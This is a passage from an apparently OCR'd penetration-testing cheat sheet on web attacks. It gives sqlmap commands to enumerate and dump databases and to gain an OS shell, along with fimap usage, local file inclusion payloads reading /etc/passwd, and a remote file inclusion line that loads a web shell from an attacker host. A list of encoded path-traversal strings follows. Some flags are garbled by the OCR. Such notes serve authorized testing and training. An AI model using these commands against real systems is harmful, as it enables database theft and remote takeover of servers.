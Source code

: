             sqlmap -r FILENAME --dbs #enumarate DB's
            sqlmap -r FILENAME -D DB_Name --tables #enumarate tables
            sqlmap -r FILENAME -D DB_Name -T TABLE_Name --dump #DUMP table
            
            #Find SQL in webpage url automatically
            sqlmap -u https://IP/ –crawl=1
            
            #with authentication
            sqlmap -u “http://target_server” -s-data=param1=value1&param2=value2 -p param1--auth-type=basic --auth-cred=username:password
            
            #Get A Reverse Shell (MySQL)
            sqlmap -r post_request.txt --dbms "mysql" --os-shell
            ```
            
        - [fimap](https://github.com/kurobeats/fimap) - Check for LFI, find, prepare, audit, exploit and even google automatically for local and remote file inclusion
            
            ```bash
            ~/tools/fimap/src/fimap.py –H –u http://target-site.com/ -w output.txt
            ```
            
            If we see in burpsuite php$url= we need to test for LFI (try /etc/passwrd)
            
            ```bash
            http://$ip/index.php?page=/etc/passwd
            http://$ip/index.php?file=../../../../etc/passwd
            ```
            
    - **File traversal list - LFI/RFI**
        
        [Path Traversal Cheat Sheet: Windows | GracefulSecuritygracefulsecurity.com](https://gracefulsecurity.com/path-traversal-cheat-sheet-windows/)
        
        - Linux Path`../../../../../../../../etc/passwd`
        - [Windows LFI](https://github.com/seal9055/Docs/blob/main/windows_lfi)`c:\windows\system32\drivers\etc\hosts`
        - RFI`http://<LHOST:80>/p0wny_shell.php`
        - Wordlists
            
            ```
            /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
            /usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt
            ```
            
            Encoded Traversal Strings:
            
            ```bash
            ../
            ..\
            ..\/
            %2e%2e%2f
            %252e%252e%252f
            %c0%ae%c0%ae%c0%af
            %uff0e%uff0e%u2215
            %uff0e%uff0e%u2216
            ..././
            ...\.\
            ```
            